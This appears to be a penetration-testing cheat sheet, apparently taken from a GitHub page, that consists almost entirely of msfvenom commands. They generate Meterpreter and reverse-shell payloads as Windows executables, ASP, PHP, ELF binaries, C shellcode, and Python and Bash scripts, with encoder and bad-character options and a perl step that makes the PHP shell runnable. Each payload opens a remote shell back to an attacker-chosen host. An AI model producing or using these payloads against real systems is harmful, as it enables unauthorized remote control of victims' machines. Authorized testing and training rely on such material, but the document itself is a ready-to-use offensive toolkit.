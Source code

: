 ```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> X > system.exe
msfvenom -p php/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 R > exploit.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -a x86 --platform win -f asp -o file.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e x86/shikata_ga_nai -b "\x00" -a x86 --platform win -f c
```
### MSF Linux Reverse Meterpreter Binary

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -f elf -a x86 --platform linux -o shell
```
### MSF Reverse Shell (C Shellcode)

```
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -b "\x00\x0a\x0d" -a x86 --platform win -f c
```
### MSF Reverse Shell Python Script

```
msfvenom -p cmd/unix/reverse_python LHOST=127.0.0.1 LPORT=443 -o shell.py
```
### MSF Reverse ASP Shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp -a x86 --platform win -o shell.asp
```
### MSF Reverse Bash Shell

```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.sh
```

### MSF Reverse PHP Shell

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.php
add <?php at the beginning
perl -i~ -0777pe's/^/<?php \n/' shell.php
```

### MSF Reverse Win Bin

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe -a x86 --platform win -o shell.exe
```
